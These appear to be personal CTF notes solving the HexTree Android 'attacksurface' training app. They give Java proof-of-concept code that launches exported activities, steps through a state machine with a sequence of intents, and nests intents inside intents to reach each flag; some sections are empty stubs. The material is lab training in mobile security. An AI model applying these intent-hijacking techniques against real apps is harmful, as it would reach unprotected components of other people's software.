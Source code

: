 
2025-06-09 10:57

Source: #android #CTF 
# Activity  

Take the apk in jadx and check the android manifest to find activities related to flag
click on the flag activity and we see a call to success() function 
our goal is to reach the success() function in all of these challenges
#### 1 - basic exported activity

 note the package name and complete class name 

write this java code in your POC app
```java
public void onClick(View view) {  
    Intent intent = new Intent();  
    intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag1Activity");  
    startActivity(intent);  
}
```
#### 2 - intent w extras


```xml
<intent-filter>
    <action android:name="io.hextree.action.GIVE_FLAG"/>
</intent-filter>
```

#### 3 - Intent w data URI

#### 4 - State machine 

when looking at the flag4activity code in jadx we see multiple actions nested in `if` loops - like so
```java
if (ordinal != 0) {
     if (ordinal != 1) {
        if (ordinal != 2) {
            if (ordinal == 3) {
                this.f.addTag(State.GET_FLAG);
                setCurrentState(State.INIT);
                success(this);
                Log.i("Flag4StateMachine", "solved");
                return;
            }
	        ...
        } else if ("GET_FLAG_ACTION".equals(action)) { ....
            Log.i("Flag4StateMachine", "Transitioned from BUILD to GET_FLAG");
            return;
        }
    } else if ("BUILD_ACTION".equals(action)) {
        ...
		... // more else if loops 
```

This hints that we might have to make multiple intents for every action 

```java
Intent exploitIntent3 = new Intent();  
exploitIntent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent3.setAction("GET_FLAG_ACTION");  
startActivity(exploitIntent3);  
  
Intent exploitIntent2 = new Intent();  
exploitIntent2.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent2.setAction("BUILD_ACTION");  
startActivity(exploitIntent2);  
  
Intent exploitIntent = new Intent();  
exploitIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent.setAction("PREPARE_ACTION");  
startActivity(exploitIntent);
```
#### 5 - Intent in intent

jump through multiple intent to reach `success()`, below is the code snippet from `flag5activity` from `jadx`.
```java
public void onCreate(Bundle bundle) {
	    ...
        Intent intent = getIntent();
        Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
        if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
            return;
        }
        this.f.addTag(42);
        Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
        this.nextIntent = intent3;
        if (intent3 == null || intent3.getStringExtra("reason") == null) {
            return;
        }
        ... // similar patterned code ahead 
```

We will use `putExtra()` here to call intent in an intent
```java
public void onClick(View view) {  
    Intent nextIntent = new Intent();  
    nextIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    nextIntent.putExtra("reason", "back");  
 
    Intent middleIntent = new Intent();  
    middleIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    middleIntent.putExtra("return", 42);           
    middleIntent.putExtra("nextIntent", nextIntent);  
  
    Intent outerIntent = new Intent();  
    outerIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    outerIntent.putExtra("android.intent.extra.INTENT", middleIntent);  
    startActivity(outerIntent);  
}
```

### References
https://www.youtube.com/watch?v=jnBmI1eD-og
https://itsfading.github.io/posts/HexTree-Attack-Surface-App-Solutions/
